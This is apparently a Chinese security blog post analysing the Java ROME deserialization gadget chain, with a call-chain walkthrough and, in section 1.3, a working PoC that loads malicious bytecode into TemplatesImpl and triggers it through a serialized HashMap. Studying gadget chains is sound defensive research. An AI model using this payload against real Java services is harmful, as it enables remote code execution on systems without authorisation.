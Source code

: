 ```yaml
---
title: Java 反序列化链 1
categories:
- Network_Security
- Web
- Java_Security
- Gadgets
tags:
- Java
- Serialization
date: 2024-10-28 13:09:20
---
```


# Java 反序列化系列链条 1

## 1. Rome 链

1. ROME 是一个功能完备的 Java 框架，专为 RSS（Really Simple Syndication）和 Atom feeds 的生成与解析而设计。它由多个模块组成，包括基础的 RSS 和 Atom 处理，以及对 MediaRSS、GeoRSS 等扩展的支持，甚至还有用于处理 OPML 文件的工具。总的来讲，就是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。
2. Atom feeds 和 RSS 相似，不过其格式是 XML。

### 1.1 chain1 - `ObjectBean`

1. 先看一下官方的说明：

    > Convenience class providing clone(), toString(), equals() and hashCode() functionality for Java Beans.
    > 对 Java Beans 做了一个功能拓展。
    > It uses the CloneableBean, EqualsBean and ToStringBean classes in a delegation pattern.
    > 也就是说，`ObjectBean` 是使用委托模式设计的类，其中有三个成员变量：`CloneableBean`、`EqualsBean` 和 `ToStringBean`，从而提供上述说的 `clone(), toString(), equals() and hashCode()` 方法。

    这里补充一下委托模式，第一次听说该模式：

    > 委托是一种动态绑定机制，允许一个对象在其内部使用另一个对象的功能，而不是通过继承或组合的方式直接拥有这些功能。委托通过定义一个接口，并在委托类中持有该接口的实现类实例，来间接调用这些实现类的方法。这种方式类似于 C# 中的委托，但在 Java 中，通常通过接口和类来实现。

    简单来讲，可以举个例子：
    ```java
    // 1. 先创建一个接口，包含被委托的方法
    public interface Delegate {
        void doAction();
    }
    // 2. 创建一个接口的实现类，他就是落实委托的人
    public class Actor implements Delegate {
        @Override
        public void doAction() {
            System.out.println("我来落实委托的事情");
        }
    }
    // 3. 创建委托类，也就是委托人
    public class Delegator implements Delegate {
        private Delegate delegate;
    
        // 通过构造方法来寻找落实的人
        public Delegator(Delegate delegate) {
            this.delegate = delegate;
        }
    
        // 叫负责人来落实事情
        @Override
        public void doAction() {
            delegate.doAction();
        }
    }
    // 4. 叫人委托
    public static void main(String[] args) {
        // 创建落实的人
        Delegate Actor = new Actor();
        // 创建委托人，并让他找到落实的人
        Delegator delegator = new Delegator(Actor);
        // 让委托人处理事情，委托人最终会找到负责人干活
        delegator.doAction();
    }
    ```

    可以看出，如果传入的落实的人不同（也就是委托人寻找不同的解决方式的人），那么结果也不一样，因此当需要动态改变行为的时候，用委托模式。而且委托模式的继承关系不明显，具体算优点还是缺点得看情况。

    回到 `ObjectBean`，看其构造函数：
    ![image-20241013164144645](Gadgets1/image-20241013164144645.png)
    其初始化时提供了 `Class` 类型和一个 `Object` 对象实例进行封装。同时在下面的构造函数中，体现他的委派的特性。

2. 来看他的 `hashCode` 方法，其会调用 `EqualsBean` 的 `beanHashCode` 方法：
    ![image-20241013164408092](Gadgets1/image-20241013164408092.png)
    跟进去：
    ![image-20241013164455803](Gadgets1/image-20241013164455803.png)
    这里的 `obj` 可以回溯到他的构造函数，它就是 `ObjectBean` 所封装的对象。

3. 记住它会调用 `obj.toString()`。

### 1.2 chain2 - `ToStringBean`

1. 这个类给所修饰的对象提供一个 `toString()` 方法，它共有两个 `toString()` 方法。先来看第一个 `toString()`，该方法没有参数：
    ![image-20241013195930627](Gadgets1/image-20241013195930627.png)
    可以看到，其获取 `obj` 属性中保存对象的类名，并调用第二个 `toString()` 有参方法：
    ![image-20241013200204001](Gadgets1/image-20241013200204001.png)
    可以看到，其会获取所有的 getter 方法，然后拿到全部属性值并打印出来。具体来讲的话，先跟进 `BeanIntrospector.getPropertyDescriptorsWithGetters`：
    ![image-20241013201204747](Gadgets1/image-20241013201204747.png)
    跟进 `getPropertyDescriptors()`：
    ![image-20241013201237112](Gadgets1/image-20241013201237112.png)
    再跟：
    ![image-20241013201517610](Gadgets1/image-20241013201517610.png)
    因此，`ToStringBean` 的 `toString()` 最终会触发 `obj` 的全部 getter。
2. 回想 CC2 的 sink，CC2 中使用 `TemplatesImpl.newTransformer()` 来触发 `private` 的 `TemplatesImpl.getTransletInstance()`。现在 `TemplatesImpl#getOutputProperties()` 中会调用 `TemplatesImpl.newTransfomer()`：
    ![image-20241013202427006](Gadgets1/image-20241013202427006.png)
    这样就会触发漏洞了。

### 1.3 PoC 编写

1. PoC 如下：
    ```java
    // Rome 版本 1.11.1
    @Test
    public void romeTest() throws NoSuchFieldException, NotFoundException, IOException, CannotCompileException, IllegalAccessException {
        // 1. 读取恶意类 bytes[] 并 sink 构造
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(Templates.class, templates));
        // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
        String serialize = serialize(objectBeanStringHashMap);
        unSerialize(serialize);
    }
    ```

2. 链的调用过程如下：
    ```java
    /*
    	HashMap.readObject()
    		ObjectBean.hashCode()
                EqualsBean.beanHashCode()
                    ToStringBean.toString()
                        Templates.getOutputProperties()
                            TemplatesImpl.newTransfomer()
                                ...
    */
    ```

3. 写 PoC 的时候遇到了一个好玩的事情：
    `EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(templates.getClass(), templates));`
    当时脑子一热，用的 `templates.getClass()`，从而 `ToStringBean` 最终会调用 `TemplatesImpl` 中的 getter，但是这样会调用 `TemplatesImpl#getStylesheetDOM()`，这个方法在反序列化过程中调用时，其类中变量 `_sdom` 是未初始化的，会报空指针异常，从而导致链的断开。
    **所以以后遇到这种 getter/setter 反序列化时需要多注意实现类的 `getClass()` 动态加载和接口的 `.class` 静态加载。**

4. Rome 版本高于 1.11.1 时，`ObjectBean` 没了。
